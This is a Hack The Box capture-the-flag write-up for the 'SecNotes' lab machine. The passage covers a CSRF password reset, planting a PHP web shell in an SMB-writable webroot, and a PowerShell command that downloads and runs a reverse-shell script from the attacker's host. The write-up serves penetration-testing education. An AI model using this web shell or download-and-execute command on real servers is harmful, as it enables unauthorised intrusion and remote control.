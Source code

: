 SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP scripto get RCE. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

I'll first run a port scan against the box using my alias `fscan`

<img src="images/fscan.png">

We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup

<img src="images/secnoteslogin.png">

I'll signup with the credentials `max:password`

<img src="images/signup.png">

Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!

<img src="images/home.png">

The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF

<img src="images/contact.png">

First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite

<img src="images/changepwdpost.png">

Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.

<img src="images/changepwdget.png">

We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`

<img src="images/home.png">

Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

<img src="images/tyler.png">

I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.

<img src="images/done.png">

On my listener I get a connection and I can now login with `tyler:password` and access his notes.

<img src="images/pwreset.png">

We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`

<img src="images/new-site.png">

We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.

<img src="images/iis.png">

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.

<img src="images/rce.png">

From here I'll write a powershell reverse shell in `shell.ps1` to call back to port 9001 on my box and host it on a python webserver. I'll start a netcat listener on port 9001, then I'll visit the URL 

`http://10.10.10.97:8808/shell.php?cmd=powershell iex(iwr -uri http://10.10.14.31/shell.ps1 -usebasicparsing)`

I get a request to my webserver

<img src="images/webserve.png">

followed by a connection on my listener

<img src="images/hit.png">

